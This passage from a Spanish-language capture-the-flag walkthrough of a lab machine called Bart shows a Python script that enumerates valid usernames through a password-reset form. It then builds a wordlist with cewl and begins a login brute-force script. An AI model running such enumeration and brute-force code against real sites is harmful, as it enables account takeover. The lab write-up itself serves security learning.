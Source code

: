 ```python
	with open("users.txt") as dicc:
	
		for char in dicc:
		
			data = {
				"csrf":csrf,
				"user_name":"%s" % char.rstrip(),
				}
				
			r2=s.post(url=forgot,data=data,proxies=proxies)
			p1.status(str(data))
			
			if "not be found" in r2.text:
				pass
			else:
				print ("Usuario {} Valido".format(char.rstrip()))
				
if __name__ == '__main__':
	bruteforce()
```


Resultado:

```bash
❯ python3 enumerate.py
[▘] Enumerando usuarios: : {'csrf': '72bb4fbc7cee7d4694e7de5a4f73368e4b802789cb5953801e92d897b45493cc', 'user_name': 'h.potter'}
Usuario daniel Valido
Usuario harvey Valido
```

### Fuerza bruta al  panel de login<a name="id3"></a>

Ya tenía usuarios validos... Pero no contraseñas, una cosa rápida que podemos hacer antes de probar un diccionario enorme como puede ser rockyou , es crearnos nuestro propio diccionario.

Para eso podemos usar la herramienta cewl. Vamos a generar un diccionario de palabras extraidas de "http://forum.bart.htb/"

```bash
❯ cewl -w dicc.txt --with-numbers --lowercase http://forum.bart.htb/
```

Además también quería palabras normales sin necisidad de que empiecen por minuscula.

```bash
❯ cewl http://forum.bart.htb/ >> dicc.txt
```

Teniendo esto hice un script en python para hacer fuerza bruta sobre los usuarios "daniel" y "harvey"

```python
import signal,requests,sys,time
from pwn import *
from bs4 import BeautifulSoup

proxies={"http":"http://127.0.0.1:8080"}
url="http://monitor.bart.htb/index.php"

users=["harvey","daniel"]

def handler(sig,frame):
	print ("\n[!] Saliendo...")
	sys.exit(1)

signal.signal(signal.SIGINT,handler)

```